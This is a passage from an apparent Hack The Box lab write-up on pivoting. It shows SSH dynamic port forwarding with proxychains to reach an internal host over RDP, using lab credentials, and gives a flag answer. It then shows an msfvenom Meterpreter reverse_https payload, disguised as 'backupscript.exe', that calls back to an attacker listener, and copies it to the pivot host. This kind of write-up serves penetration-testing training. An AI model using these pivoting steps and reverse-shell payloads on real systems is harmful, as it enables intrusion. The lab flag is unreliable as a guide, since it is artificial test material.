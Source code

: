 Alternate way of connecting with RDP:

Enable dynamic port forwarding and make sure proxychans are confugured.

```
┌──(kali㉿kali)-[~]
└─$ ssh -D 9050 ubuntu@10.129.184.140
(...)
┌──(kali㉿kali)-[~]
└─$ tail -4 /etc/proxychains.conf
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050

┌──(kali㉿kali)-[~]
└─$ proxychains -q xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```


**Answer:** `N1c3Piv0t`

---
## Remote/Reverse Port Forwarding with SSH
### Question 1:
![](./attachments/Pasted%20image%2020230221105223.png)

Use `MFSvenom` to create a Windows payload.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.5.129 -f exe -o backupscript.exe LPORT=8080 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 654 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Copy the payload to the Pivot host.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ scp backupscript.exe ubuntu@10.129.184.140:~/     
ubuntu@10.129.184.140's password: 
backupscript.exe                                                                   100% 7168   196.6KB/s   00:00 
```

